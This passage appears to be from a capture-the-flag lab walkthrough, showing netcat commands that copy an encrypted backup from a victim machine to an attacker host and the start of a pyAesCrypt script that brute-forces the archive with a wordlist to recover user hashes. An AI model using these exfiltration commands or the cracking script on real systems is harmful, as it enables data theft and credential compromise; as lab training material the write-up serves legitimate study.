 On the attacker machine:

<aside>
💡

nc -lvp 9001 > web_20250806_120723.zip.aes

</aside>

On the victim machine:

<aside>
💡

nc 10.10.14.100 9001 < /var/backup/web_20250806_120723.zip.aes

</aside>

Download the archive to your attacker host and brute-force it (custom script / pyAesCrypt loop). Once decrypted, extract the old `db.json` which contains historical user hashes (including `mark`).

## Install dependencies

```bash
sudo apt update
sudo apt install -y python3-pip unzip john
pip3 install pyAesCrypt hashid

```

## Brute-force script (pyAesCrypt)

Save this as `pyaes_bruteforce.py` in the same directory as `web_20250806_120723.zip.aes` and `rockyou.txt` (or point `-w` at your wordlist):

```python
#!/usr/bin/env python3
# pyaes_bruteforce.py
import pyAesCrypt, zipfile, os, sys, argparse
from pathlib import Path

parser = argparse.ArgumentParser()
parser.add_argument("-i","--input", default="web_20250806_120723.zip.aes")
parser.add_argument("-w","--wordlist", default="rockyou.txt")
parser.add_argument("-o","--out", default="decrypted.zip")
parser.add_argument("-b","--buffer", type=int, default=64*1024)
parser.add_argument("-s","--start", type=int, default=1)
args = parser.parse_args()

encfile = args.input
outfile = args.out
bufferSize = args.buffer
wordlist = args.wordlist

def is_valid_zip(path):
    try:
        with zipfile.ZipFile(path, 'r') as z:
            return z.testzip() is None
    except Exception:
        return False

with open(wordlist, 'r', errors='ignore') as fh:
    for idx, line in enumerate(fh, 1):
        if idx < args.start:
            continue
        pw = line.rstrip("\n\r")
        try:
            pyAesCrypt.decryptFile(encfile, outfile, pw, bufferSize)
```